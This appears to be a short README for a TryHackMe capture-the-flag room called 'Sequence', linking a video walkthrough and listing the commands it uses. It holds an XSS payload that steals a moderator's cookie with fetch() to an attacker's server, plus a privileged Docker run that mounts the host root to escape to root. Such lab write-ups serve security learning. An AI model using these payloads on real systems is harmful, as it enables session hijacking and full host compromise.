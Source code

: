 ## TryHackMe room Sequence https://tryhackme.com/room/sequence

![TryHackMe room Sequence](https://github.com/djalilayed/tryhackme/blob/main/Sequence/Sequence.png)


### TryHackMe Sequence YouTube Video Walk Through: 

[TryHackMe Sequence - Full Walkthrough 2025](https://youtu.be/looyfVGX_yU)

**Below commands used on TryHackMe room Sequence YouTube video walk through:**

### Stealing mod cookie and send it to python server
```
<img src=x onerror="fetch('http://10.10.143.146:8000/?ce='+btoa(document.cookie))">
```
### root docker escape:

```
docker ps
docker run -v /:/host --privileged -it phpvulnerable chroot /host
```
